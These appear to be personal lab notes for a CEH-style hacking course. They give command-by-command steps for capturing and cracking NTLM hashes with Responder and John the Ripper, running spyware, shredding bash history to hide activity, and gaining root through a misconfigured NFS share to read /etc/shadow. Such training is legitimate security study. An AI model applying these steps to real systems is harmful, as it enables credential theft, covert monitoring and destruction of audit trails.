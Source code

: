 - enum using global network inventory.exe
use connect as credentials - administrator and pwd
---------will give scan summary------------------


* Vulnerability Analysis

- Vul research on CWE 
- Vul research on CVE

* System Hacking 

- Active online attack to crack pwd using responser.py(parrot)
1. chmod +x ./Responder.py
2. sudo ./Responder.py -I ens3  -> start listening 
3. launch win11 machine 
4. run //CEH=Tools
5. responders got the logs of that win machine
6. go responder dir -> logs dir -> SMB NTML hash
7. snap install john-the-ripper
8. sudo john path-to-smb-ntlm.txt  -> crack the pwd (wordlist located at /snap/john-the-ripper/current/run/password.txt)

- User system monitoring and surveillance using spytech spyagent.exe

- clear linux machine logs using bash shell
1. history -c 
2. shred ~/.bash_history && history -c && exit

- Escalate Privilege using misconfigured NFS
1. apt install nfs-kernel-server
2. sudo nano /etc/exports -> add line /home *(rw,no_root_squash)
3. sudo /etc/init.d/nfs-kernel-server
Done ^ setup

attacher machine for PE

nmpa -sV ip
suod apt-get install nfs-common
showmount -e ip
mkdir /tmp/nfs
sudo mount -t nfs ip:/home /tmp/nfs
cd /tmp/nfs/
sudo cp /bin/bash .
sudo chmod +s bash 
ls -la bash
sudo df -h 

-------now login to target machine

1. ssh -l ubuntu ip | pwd
2. cd /home
3. ls 
4. ./bash -p 
5. bash-5.1# id
6. whoami
7. cp /bin/nano .
8. chmod +4777 nano 
9. ls -la nano 
10. cd /home
11. ls 
12. ./nano -p /etc/shadow -> shows hash of any user and crack it using john
13. cat /etc/crontab
14. ps -ef (processes)
15. find / -name "*.txt" -ls 2> /dev/null (list all text file from sys)
16. find / -perm -4000 -ls 2> /dev/null (suid and info)
